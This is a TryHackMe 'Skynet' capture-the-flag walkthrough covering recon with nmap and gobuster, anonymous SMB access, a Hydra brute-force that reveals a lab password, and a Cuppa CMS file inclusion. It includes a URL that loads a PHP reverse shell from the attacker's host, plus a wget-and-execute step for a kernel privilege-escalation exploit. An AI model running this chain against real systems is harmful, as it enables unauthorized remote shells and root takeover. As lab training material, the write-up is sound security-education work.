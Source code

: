 # Skynet - TryHackMe

## Recon Stage

Start with an nmap:

```
┌──(kali㉿kali)-[~/TryHackMe/Skynet]
└─$ nmap -sV -sC -Pn 10.10.223.17
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 09:18 EST
Nmap scan report for 10.10.223.17
Host is up (0.022s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES AUTH-RESP-CODE SASL CAPA PIPELINING UIDL TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more SASL-IR LOGIN-REFERRALS LOGINDISABLEDA0001 capabilities IMAP4rev1 LITERAL+ have OK post-login Pre-login listed ENABLE IDLE ID
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2021-03-13T08:18:27-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-13T14:18:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.77 seconds
```

Interested with the webserver, so I take a look and am presented with this:

![](2021-03-13-09-19-54.png)

Checked the source, nothing interesting there. I'm opting to use gobuster here to see if we can find some interesting directories:

```
┌──(kali㉿kali)-[~/TryHackMe/Skynet]
└─$ gobuster dir -u http://10.10.223.17 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

One directory it found was /squirrelmail, so I open that up and looks like they have a version of squirrelmail running:

![](2021-03-13-09-22-41.png)

Searching with searchsploit for the squirrelmail version results in the following:

![](2021-03-13-09-24-09.png)

Looks like this version has a local file inclusion. I test this:

![](2021-03-13-09-28-11.png)

Hmmh, seems not to be working for unauthorised users...

Nmap also found an SMB share, so I will run an enumeration scan using nmap scripts:

`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.223.17`

The result:


![](2021-03-13-09-32-09.png)

Well as it turns out anonymous access is available, so instead I connect to the smb share:

```
──(kali㉿kali)-[~]
└─$ smbclient //10.10.223.17/anonymous 
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5797120 blocks available
```

After looking through the logs, one seems to contain a list of possible passwords.. interesting, let me use these as the password list for a brute-force:

![](2021-03-13-09-44-01.png)

Okay, now I check for the POST parameters:

![](2021-03-13-09-33-41.png)

And run the Hydra bruteforce:

![](2021-03-13-09-45-50.png)

Great! We found the username and password:
milesdyson:cyborg007haloterminator

Now, logging into the email server, we find an email with the users' SMB password:

![](2021-03-13-09-47-35.png)

I then create a credentials file for smbclient:

![](2021-03-13-09-55-17.png)

And login to milesdyson's share:

![](2021-03-13-09-55-33.png)

After navigating, I found a file under notes/important.txt which includes this:

![](2021-03-13-09-57-50.png)

The front-page for the 'beta cms' looks as such:

![](2021-03-13-09-58-24.png)

I run a gobuster and find a directory /administrator/ which brings me to this:

![](2021-03-13-10-48-03.png)

I check with searchsploit for Cuppa CMS to see if there are any public vulnerabilities:

![](2021-03-13-10-49-23.png)

Reading through the txt tells us about a local/remote file inclusion exploit on the URI `/alerts/alertConfigField.php?urlConfig=`

I decide to use php-reverse-shell (available [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)), and edit it with my local ip and port 4444, and then start up a python webserver using `python -m SimpleHTTPServer` in order to include it on the site.

Before running, I startup my listener on port 4444 using netcat, and then run the inclusion exploit:

`http://10.10.223.17/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.2.93:8000/php-reverse-shell.php`

And we have a terminal!

![](2021-03-13-11-01-17.png)

I check the kernel version for possible privesc exploits:

```
$ uname -a
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

Doing a search, I find an exploit for this kernel version CVE 2017-1000112 in the form of a c file. I check, and www-data has access to wget! Okay, so let us create and compile this binary on my localmachine and upload it:

![](2021-03-13-11-17-21.png)

And then download it and execute on the victim:


```
$ wget http://10.9.2.93:8000/esc
--2021-03-13 10:14:42--  http://10.9.2.93:8000/esc
Connecting to 10.9.2.93:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36192 (35K) [application/octet-stream]
Saving to: 'esc'

     0K .......... .......... .......... .....                100% 1.14M=0.03s

2021-03-13 10:14:42 (1.14 MB/s) - 'esc' saved [36192/36192]
$ chmod +x esc
$ ./esc   
bash: cannot set terminal process group (1252): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html/45kra24zxs28v3yd/administrator# whoami
whoami
root
```

And now we have root! Thanks outdated kernels!

Now I am free to find the flags in /root


